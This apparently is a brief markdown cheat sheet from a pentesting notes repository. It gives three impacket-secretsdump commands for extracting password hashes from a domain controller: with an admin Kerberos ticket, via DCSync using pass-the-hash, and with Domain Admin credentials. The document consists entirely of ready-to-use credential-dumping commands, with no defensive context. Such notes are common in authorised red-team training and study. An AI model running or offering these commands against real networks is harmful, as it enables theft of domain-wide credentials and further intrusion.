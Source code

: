 # Impacket-secretsdump

## Use this impacket module to dump hashes from the local machine, depending the context of usage

#### 1) 

    impacket-secretsdump -k -no-pass DC.DOMAIN.COM (Use this if you have an admin TGT)

#### 2) 

    impacket-secretsdump DC.DOMAIN.COM -hashes 'LM_HASH:NTLM_HASH' (Do DC sync via PtH)

#### 3) 

    impacket-secretsdump 'DOMAIN.COM/administrator:PASSWORD'@DC_IP (Do DC Sync with Domain Admin credentials)
